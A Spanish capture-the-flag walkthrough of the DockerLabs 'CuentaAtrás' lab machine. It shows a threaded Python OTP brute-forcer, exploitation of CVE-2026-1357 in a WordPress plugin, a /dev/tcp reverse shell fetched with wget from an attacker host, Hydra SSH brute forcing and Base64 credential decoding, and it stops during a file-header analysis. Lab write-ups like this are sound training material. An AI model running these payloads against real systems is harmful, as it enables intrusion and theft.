









# CuentaAtrás DockerLabs (Intermediate)

## Contexto de la maquina

### Trayectoria CuentaAtrás

<figure><figcaption></figcaption></figure>

### Descripción

**CuentaAtrás** es una máquina Linux que combina varios vectores de ataque relacionados con aplicaciones web, autenticación débil, explotación de plugins vulnerables en WordPress y análisis forense de archivos.

El escenario comienza con una aplicación web que implementa un mecanismo de verificación mediante código numérico de cuatro dígitos. Debido a la falta de protecciones adecuadas contra intentos automatizados, este mecanismo puede ser explotado mediante **fuerza bruta**, permitiendo el acceso a funcionalidades ocultas del sistema.

Posteriormente, el reto continúa con la explotación de un **plugin vulnerable de WordPress**, lo que permite ejecutar comandos en el servidor. A partir de este punto se realizan varias escaladas de privilegios mediante credenciales expuestas, análisis de archivos y técnicas de **esteganografía**.

**Objetivo del reto**

El objetivo consiste en comprometer completamente el sistema:

* Acceder al portal protegido
* Obtener ejecución remota de comandos
* Escalar privilegios entre varios usuarios del sistema
* Obtener acceso final como **root**
* Recuperar las flags del sistema

**Tipo de máquina**

* Linux
* Web Application
* WordPress
* Análisis forense / Esteganografía

**Habilidades y técnicas evaluadas**

* Enumeración de servicios con **Nmap**
* Ataques de **fuerza bruta sobre códigos OTP**
* Enumeración de WordPress con **WPScan**
* Explotación de **plugins vulnerables**
* Ejecución remota de comandos (**RCE**)
* Obtención de **reverse shells**
* Fuerza bruta de credenciales SSH
* Decodificación **Base64**
* Análisis forense de archivos
* Manipulación de cabeceras de archivos
* **Esteganografía** en imágenes
* Escalada de privilegios en Linux

### Análisis de vulnerabilidades

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip cuentaatras.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh cuentaatras.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-10 11:20 -0400
Nmap scan report for 172.17.0.2
Host is up (0.000025s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 44:8b:5d:b8:b1:d8:de:fd:c9:a5:fe:55:d2:2b:db:de (ECDSA)
|_  256 1a:52:81:f8:4e:ee:37:2c:95:16:57:7c:2b:02:a4:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Login
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.01 seconds
```

A partir del escaneo observamos que únicamente existen **dos puertos abiertos**:

* **22/tcp → SSH**
* **80/tcp → HTTP**

El puerto **80** aloja una aplicación web, por lo que procedemos a inspeccionarla accediendo desde el navegador.

```
URL = http://<IP>/
```

Respuesta:

<figure><figcaption></figcaption></figure>

La página muestra un **panel de login aparentemente sencillo**. En la parte inferior se observa la opción de **registro de usuario**, por lo que decidimos crear una cuenta para analizar el comportamiento de la aplicación.

<figure><figcaption></figcaption></figure>

Al intentar registrarnos, el sistema nos redirige a un nuevo paso del proceso de verificación.

<figure><figcaption></figcaption></figure>

## Fuerza bruta código

<figure><figcaption></figcaption></figure>

Durante el registro observamos que la aplicación solicita introducir un **código de verificación enviado al número de teléfono proporcionado**. Además, el sistema indica que disponemos de **5 minutos para introducir dicho código**.

Sin embargo, como el número de teléfono introducido no existe, **no tenemos forma de recibir el código de verificación**.

Analizando la funcionalidad, podemos deducir que el código es un **valor numérico de 4 dígitos**, lo que implica un total de **10.000 combinaciones posibles (0000–9999)**.

Dado que el espacio de búsqueda es reducido, decidimos desarrollar un **script de fuerza bruta en Python** que pruebe aproximadamente **100 códigos por segundo**, aprovechando múltiples hilos para acelerar el proceso.

El objetivo del script es detectar cuándo el código es correcto observando **cambios en la respuesta del servidor**, como por ejemplo una **redirección HTTP o un cambio en el contenido de la página**.

> bruteNum.py

```python
import requests
from concurrent.futures import ThreadPoolExecutor
import time

url = "http://<IP>/verify.php"

def crear_sesion():
    """Crea una sesión con la cookie"""
    sesion = requests.Session()
    sesion.cookies.set("PHPSESSID", "<COOKIE>")
    return sesion

def probar_codigo(args):
    """Prueba un código con su propia sesión"""
    codigo, sesion = args
    try:
        response = sesion.post(
            url, 
            data={"code": f"{codigo:04d}"},
            timeout=0.5,
            allow_redirects=False  # No seguir redirecciones automáticamente
        )
        
        # Verificar si hay redirección a registro (código 302 Found)
        if response.status_code == 302:
            return codigo, True, "REDIRECCIÓN DETECTADA"
        
        # Alternativa: verificar si la respuesta contiene el formulario de registro
        texto = response.text.lower()
        if "registro de usuario" in texto or "register" in texto:
            return codigo, True, "PÁGINA DE REGISTRO ENCONTRADA"
            
    except Exception as e:
        pass
    return None, False, None

def fuerza_bruta():
    """Ejecuta fuerza bruta con sesiones"""
    print("🚀 Iniciando fuerza bruta...")
    print("🔍 Buscando código que redirija a registro...")
    print("=" * 60)
    
    # Crear sesiones para cada hilo
    sesiones = [crear_sesion() for _ in range(50)]  # Aumentamos a 50 hilos
    
    with ThreadPoolExecutor(max_workers=50) as executor:
        # Preparar argumentos: (código, sesión)
        args = [(i, sesiones[i % 50]) for i in range(10000)]
        futures = {executor.submit(probar_codigo, arg): i for i, arg in enumerate(args)}
        
        for future in futures:
            codigo, encontrado, detalle = future.result()
            if encontrado:
                print("\n" + "=" * 60)
                print(f"🎯 ¡CÓDIGO SECRETO DETECTADO: {codigo:04d}!")
                print(f"📝 Detalle: {detalle}")
                print("✅ El código es correcto - Redirige a registro")
                print("=" * 60)
                executor.shutdown(wait=False)
                return codigo
            
            # Progreso cada 100 códigos
            current = futures[future]
            if current % 100 == 0 and current > 0:
                print(f"➡️  Progreso: {current:04d}/9999 - Probando códigos...")
    
    return None

def verificar_manualmente(codigo):
    """Verifica manualmente el código encontrado"""
    print("\n🔍 VERIFICACIÓN MANUAL:")
    print(f"📌 Código encontrado: {codigo:04d}")
    print(f"🌐 URL para verificar: {url}")
    print("🍪 Usa esta cookie en el navegador:")
    print("   PHPSESSID=ucso5tjuqp7jrtplbetn05kvui")
    print(f"🔗 O accede directamente: {url} (y prueba el código {codigo:04d})")

if __name__ == "__main__":
    inicio = time.time()
    resultado = fuerza_bruta()
    
    print("\n" + "=" * 60)
    if resultado:
        print(f"✅ ¡ÉXITO! Código secreto encontrado: {resultado:04d}")
        verificar_manualmente(resultado)
    else:
        print("❌ No se encontró el código secreto")
    print(f"⏱️  Tiempo total: {time.time() - inicio:.2f} segundos")
    print("=" * 60)
```

Una vez ajustado el script a nuestras necesidades, lo ejecutamos:

```shell
python3 bruteNum.py
```

Respuesta:

```
................................<RESTO DE INFO>....................................
➡️  Progreso: 6200/9999 - Probando códigos...

============================================================
🎯 ¡CÓDIGO SECRETO DETECTADO: 6272!
📝 Detalle: REDIRECCIÓN DETECTADA
✅ El código es correcto - Redirige a registro
============================================================

============================================================
✅ ¡ÉXITO! Código secreto encontrado: 6272

🔍 VERIFICACIÓN MANUAL:
📌 Código encontrado: 6272
🌐 URL para verificar: http://172.17.0.2/verify.php
🍪 Usa esta cookie en el navegador:
   PHPSESSID=ucso5tjuqp7jrtplbetn05kvui
🔗 O accede directamente: http://172.17.0.2/verify.php (y prueba el código 6272)
⏱️  Tiempo total: 15.76 segundos
============================================================
```

El script detecta que el código **6272** produce un comportamiento distinto en la respuesta del servidor, lo que indica que **es el código de verificación correcto**.

Con este código podemos completar el proceso de registro e iniciar sesión en la aplicación.

## Acceso al portal oculto

Una vez autenticados correctamente, el sistema nos muestra la siguiente página:

<figure><figcaption></figcaption></figure>

Aquí observamos que se revela una **ruta oculta dentro de la aplicación**, accedemos a dicha ruta::

```
URL = http://<IP>/secret_portal_65hBlEo9OU/
```

Respuesta:

<figure><figcaption></figcaption></figure>

Al inspeccionar la página observamos que se trata de una **instancia de WordPress**.

Sabiendo esto, procedemos a realizar tareas de **enumeración de usuarios y plugins** para identificar posibles vectores de ataque.

## Enumeración con WPScan

<figure><figcaption></figcaption></figure>

Para enumerar usuarios y plugins utilizamos la herramienta `wpscan`.

```shell
wpscan --url http://<IP>/secret_portal_65hBlEo9OU/ -e u
wpscan --url http://<IP>/secret_portal_65hBlEo9OU/ -e p --plugins-detection aggressive
```

Respuesta:

```
.................................<RESTO DE INFO>...................................
[i] Plugin(s) Identified:

[+] akismet
 | Location: http://172.17.0.2/secret_portal_65hBlEo9OU/wp-content/plugins/akismet/
 | Latest Version: 5.6 (up to date)
 | Last Updated: 2025-11-12T16:31:00.000Z
 | Readme: http://172.17.0.2/secret_portal_65hBlEo9OU/wp-content/plugins/akismet/readme.txt
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://172.17.0.2/secret_portal_65hBlEo9OU/wp-content/plugins/akismet/, status: 200
 |
 | Version: 5.6 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://172.17.0.2/secret_portal_65hBlEo9OU/wp-content/plugins/akismet/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://172.17.0.2/secret_portal_65hBlEo9OU/wp-content/plugins/akismet/readme.txt

[+] wpvivid-backuprestore
 | Location: http://172.17.0.2/secret_portal_65hBlEo9OU/wp-content/plugins/wpvivid-backuprestore/
 | Last Updated: 2026-02-20T00:33:00.000Z
 | Readme: http://172.17.0.2/secret_portal_65hBlEo9OU/wp-content/plugins/wpvivid-backuprestore/readme.txt
 | [!] The version is out of date, the latest version is 0.9.124
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://172.17.0.2/secret_portal_65hBlEo9OU/wp-content/plugins/wpvivid-backuprestore/, status: 200
 |
 | Version: 0.9.123 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://172.17.0.2/secret_portal_65hBlEo9OU/wp-content/plugins/wpvivid-backuprestore/readme.txt
.................................<RESTO DE INFO>...................................
[i] User(s) Identified:

[+] admin_master
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
.................................<RESTO DE INFO>...................................
```

Por lo tanto, tras esta enumeración obtenemos información relevante:

* **Usuario identificado:** `admin_master`
* **Plugins detectados:**
  * `akismet`
  * `wpvivid-backuprestore` (versión desactualizada)

Dado que uno de los plugins se encuentra **desactualizado**, el siguiente paso será **investigar posibles vulnerabilidades asociadas a estos plugins**, especialmente al plugin `wpvivid-backuprestore`, que podría proporcionar un vector de explotación.

## Escalate user www-data

### CVE-2026-1357

Si investigamos un poco más sobre el plugin identificado anteriormente, observamos que la versión **`0.9.123` del plugin `wpvivid-backuprestore`** es vulnerable a la vulnerabilidad **CVE-2026-1357**.

Esta vulnerabilidad permite realizar **Remote Code Execution (RCE)** en el servidor a través de una funcionalidad vulnerable del plugin. Para explotarla utilizaremos un **Proof of Concept (PoC)** disponible públicamente.

Repositorio del exploit:

URL = [GitHub CVE-2026-1357 Exploit](https://github.com/halilkirazkaya/CVE-2026-1357/tree/main)

Procedemos a clonarlo en nuestra máquina atacante.

Una vez descargado el repositorio, creamos un **entorno virtual de Python** para instalar las dependencias necesarias sin afectar al sistema global.

```shell
python3 -m venv .venv; source .venv/bin/activate
pip install -r requirements.txt
```

Con todas las dependencias instaladas, ejecutamos el exploit en modo **check** para comprobar si el sistema es vulnerable.

```shell
python3 exploit.py -u 'http://<IP>/secret_portal_65hBlEo9OU/' -c
```

Respuesta:

```

   ╔══════════════════════════════════════════════════════════╗
   ║        CVE-2026-1357  WPvivid RCE PoC                    ║
   ║        WPvivid Backup & Migration <= 0.9.123             ║
   ╚══════════════════════════════════════════════════════════╝
    
[*] Target       : http://172.17.0.2/secret_portal_65hBlEo9OU/
[*] Mode         : Check
[*] Upload path  : ../uploads/05j9u2vdi75z.txt

[+] Generating encrypted payload (AES-128-CBC, null key + null IV)...
[+] Payload size : 372 bytes (base64)
[+] Sending exploit via wpvivid_action=send_to_site ...
[+] Response     : 200
[+] Body         : {"result":"success","op":"finished"}

[+] Verifying at: http://172.17.0.2/secret_portal_65hBlEo9OU/wp-content/uploads/05j9u2vdi75z.txt
[✓] Vulnerability Confirmed! File content matches MD5.
```

Observamos que el exploit confirma que el sistema es **vulnerable**, ya que ha sido capaz de subir un archivo al directorio de uploads del servidor.

### Ejecución de comandos

Ahora que sabemos que la vulnerabilidad es explotable, vamos a probar la ejecución remota de comandos utilizando el exploit.

```shell
python3 exploit.py -u 'http://<IP>/secret_portal_65hBlEo9OU/' -s 'id'
```

Respuesta:

```

   ╔══════════════════════════════════════════════════════════╗
   ║        CVE-2026-1357  WPvivid RCE PoC                    ║
   ║        WPvivid Backup & Migration <= 0.9.123             ║
   ╚══════════════════════════════════════════════════════════╝
    
[*] Target       : http://172.17.0.2/secret_portal_65hBlEo9OU/
[*] Mode         : Shell
[*] Upload path  : ../uploads/2t9juyucx40hipp7bw1rx0mg.php
[*] Verify cmd   : id

[+] Generating encrypted payload (AES-128-CBC, null key + null IV)...
[+] Payload size : 392 bytes (base64)
[+] Sending exploit via wpvivid_action=send_to_site ...
[+] Response     : 200
[+] Body         : {"result":"success","op":"finished"}

[+] Verifying at: http://172.17.0.2/secret_portal_65hBlEo9OU/wp-content/uploads/2t9juyucx40hipp7bw1rx0mg.php?cmd=id
[✓] RCE Confirmed!
[✓] Output:
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Esto confirma que podemos ejecutar comandos en el sistema como el usuario **`www-data`**, que corresponde al usuario del servidor web.

### Obtención de Reverse Shell

Para obtener acceso interactivo al sistema, procederemos a crear una **reverse shell**.

Primero creamos un archivo que contenga la shell reversa.

> rev.sh

```bash
#!/bin/bash

bash -i >& /dev/tcp/<IP_ATTACKER>/<PORT> 0>&1
```

Una vez creado el archivo, levantamos un **servidor HTTP temporal** con Python para que la máquina víctima pueda descargarlo.

```shell
python3 -m http.server 80
```

Con el servidor activo, utilizamos el exploit para descargar el archivo en la máquina víctima utilizando `wget`.

```shell
python3 exploit.py -u 'http://<IP>/secret_portal_65hBlEo9OU/' -s 'wget http://<IP_ATTACKER>/rev.sh -O /tmp/rev.sh'
```

Si observamos la salida del servidor Python veremos que el archivo ha sido descargado correctamente.

Ahora nos ponemos a la escucha en nuestra máquina atacante:

```shell
nc -lvnp <PORT>
```

Finalmente ejecutamos el script desde el servidor víctima utilizando nuevamente el exploit.

```shell
python3 exploit.py -u 'http://<IP>/secret_portal_65hBlEo9OU/' -s 'bash /tmp/rev.sh'
```

Al hacerlo, recibiremos la conexión en nuestro listener.

```
listening on [any] 7777 ...
connect to [192.168.5.131] from (UNKNOWN) [172.17.0.2] 57636
bash: cannot set terminal process group (32): Inappropriate ioctl for device
bash: no job control in this shell
</html/secret_portal_65hBlEo9OU/wp-content/uploads$ whoami
whoami
www-data
```

Esto confirma que hemos obtenido acceso al sistema como el usuario **`www-data`**.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user bond

<figure><figcaption></figcaption></figure>

Una vez dentro del sistema comenzamos a enumerar los usuarios existentes.

```shell
cat /etc/passwd | grep "/bin/bash"
```

Respuesta:

```
root:x:0:0:root:/root:/bin/bash
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
webmaster:x:1001:1001::/home/webmaster:/bin/bash
ethan:x:1002:1002:Ethan Hunt,,,:/home/ethan:/bin/bash
bond:x:1003:1003:James Bond,,,:/home/bond:/bin/bash
```

Observamos varios usuarios interesantes en el sistema.

Sin embargo, al revisar el directorio `/home` notamos que **no todos los usuarios poseen directorio personal**, lo que resulta llamativo en el caso del usuario `webmaster`.

Después de realizar varias tareas de enumeración sin resultados relevantes, decidimos intentar un **ataque de fuerza bruta contra el servicio SSH** utilizando los usuarios identificados.

Creamos un archivo con los posibles usuarios.

> users.txt

```
webmaster
ethan
bond
```

Utilizamos la herramienta `hydra` para realizar el ataque.

```shell
hydra -L users.txt -P <WORDLIST> ssh://<IP> -t 64 -I
```

Respuesta:

```
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-03-11 15:22:21
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: bond   password: 999999999
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 24 final worker threads did not complete until end.
[ERROR] 24 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-03-11 15:23:12
```

Observamos que el usuario **`bond`** utiliza una contraseña extremadamente débil `999999999` con estas credenciales nos conectamos al sistema mediante SSH.

```shell
ssh bond@<IP>
```

Metemos como contraseña `999999999`...

```
Welcome to Ubuntu 24.04.4 LTS (GNU/Linux 6.17.10+kali-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
bond@fd05c59db0dd:~$ whoami
bond
```

Hemos accedido correctamente al sistema como el usuario **`bond`**.

Finalmente leemos la flag correspondiente al usuario.

> user.txt

```
DL{oDMEsGfekTxXB2KefL0v}
```

## Escalate user ethan

<figure><figcaption></figcaption></figure>

Después de un rato realizando tareas de **enumeración en el sistema**, encontré un archivo llamado:

```
copy2321_.php
```

Inicialmente lo pasé por alto varias veces, pero tras revisarlo con más detenimiento observé que contenía una **petición HTTP completa**, incluyendo una **cookie sospechosa**. Tras intentar reutilizar dicha cookie en diferentes contextos sin éxito, decidí analizar su contenido.

> copy2321\_.php

```
GET /productos/lista?page=3&orden=desc HTTP/1.1
Host: localhost:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.9,en;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://localhost/inicio
Cookie: session_id=ZXRoYW46cGZMbVdWejJFR0tHcFJDbUFDVFAK; theme=dark
Upgrade-Insecure-Requests: 1
```

La cookie `session_id` parece estar **codificada en Base64**, por lo que procedemos a decodificarla.

```shell
echo 'ZXRoYW46cGZMbVdWejJFR0tHcFJDbUFDVFAK' | base64 -d -w0
```

Respuesta:

```
ethan:pfLmWVz2EGKGpRCmACTP
```

Observamos que el contenido decodificado corresponde a **credenciales en texto plano**, pertenecientes al usuario `ethan`.

Con esta información procedemos a cambiar de usuario.

```shell
su ethan
```

Metemos como contraseña `pfLmWVz2EGKGpRCmACTP`...

```
ethan@d8f11ce8ba0e:/home/bond$ whoami
ethan
```

De esta forma conseguimos escalar privilegios al usuario **`ethan`**.

## Escalate Privileges

<figure><figcaption></figcaption></figure>

Tras acceder como `ethan`, observamos que cada cierto tiempo la sesión se cierra automáticamente mostrando el siguiente mensaje:

```
timed out waiting for input: auto-logout
```

Esto indica que existe algún mecanismo de **auto logout asociado a la shell utilizada**.

Para evitar este comportamiento, intentamos iniciar rápidamente una shell alternativa utilizando `sh`.

```shell
sh
```

Una vez dentro de esta shell observamos que **la sesión ya no se cierra automáticamente**, por lo que podemos continuar con la enumeración del sistema sin interrupciones.

### Enumeración de directorios

Accedemos al directorio personal del usuario `ethan` y encontramos una carpeta llamada `miscosas`.

Dentro de ella observamos la siguiente estructura:

```
total 60
drwx------ 1 ethan ethan 4096 Mar  2 15:26 .
drwxr-x--- 1 ethan ethan 4096 Mar  4 15:15 ..
drwxr-xr-x 1 ethan ethan 4096 Mar  2 15:24 documentos
drwxr-xr-x 1 ethan ethan 4096 Mar  2 15:24 escritorio
drwxr-xr-x 1 ethan ethan 4096 Mar  2 15:26 fotos
drwxr-xr-x 1 ethan ethan 4096 Mar  2 15:24 herramientas
drwxr-xr-x 1 ethan ethan 4096 Mar  2 15:24 imagenes
drwxr-xr-x 1 ethan ethan 4096 Mar  2 15:24 juegos
drwxr-xr-x 1 ethan ethan 4096 Mar  2 15:24 maletin
drwxr-xr-x 1 ethan ethan 4096 Mar  2 15:24 musica
drwxr-xr-x 1 ethan ethan 4096 Mar  2 15:24 nopor
drwxr-xr-x 1 ethan ethan 4096 Mar  2 15:24 notas
drwxr-xr-x 1 ethan ethan 4096 Mar  2 15:24 programas
drwxr-xr-x 1 ethan ethan 4096 Mar  2 15:24 secretos
```

De todas las carpetas listadas, únicamente la carpeta **`fotos`** contiene un archivo.

En su interior encontramos una imagen llamada:

```
captura3.jpg
```

### Transferencia del archivo

Para analizar el archivo en nuestra máquina atacante, levantamos un **servidor HTTP temporal con Python**.

```shell
cd /home/ethan/miscosas/fotos
python3 -m http.server
```

Desde nuestra máquina atacante descargamos el archivo:

```shell
wget http://<IP>:8000/captura3.jpg
```

## Análisis del archivo

Si intentamos abrir la imagen directamente observamos que **no se comporta como una imagen válida**.

Por ello analizamos el tipo de archivo con `file`.

```shell
file captura3.jpg
```

Respuesta:

```
captura3.jpg: data
```

El sistema no reconoce el archivo como una imagen válida, por lo que procedemos a inspeccionar su **cabecera en hexadecimal**.

```shell
xxd captura3.jpg | head -30
```

Respuesta:

```
00000000: 8950 4e47 0d0a 1a0a 4946 0001 0101 0078  .PNG....IF.....x
00000010: 0078 0000 ffdb 0043 0003 0202 0302 0203  .x.....C........
00000020: 0303 0304 0303 0405 0805 0504 0405 0a07  ................
00000030: 0706 080c 0a0c 0c0b 0a0b 0b0d 0e12 100d  ................
00000040: 0e11 0e0b 0b10 1610 1113 1415 1515 0c0f  ................
00000050: 1718 1614 1812 1415 14ff db00 4301 0304  ............C...
00000060: 0405 0405 0905 0509 140d 0b0d 1414 1414  ................
00000070: 1414 1414 1414 1414 1414 1414 1414 1414  ................
00000080: 1414 1414 1414 1414 1414 1414 1414 1414  ................
00000090: 1414 1414 1414 1414 1414 1414 1414 ffc0  ................
000000a0: 0011 0801 2901 bf03 0122 0002 1101 0311  ....)...."......
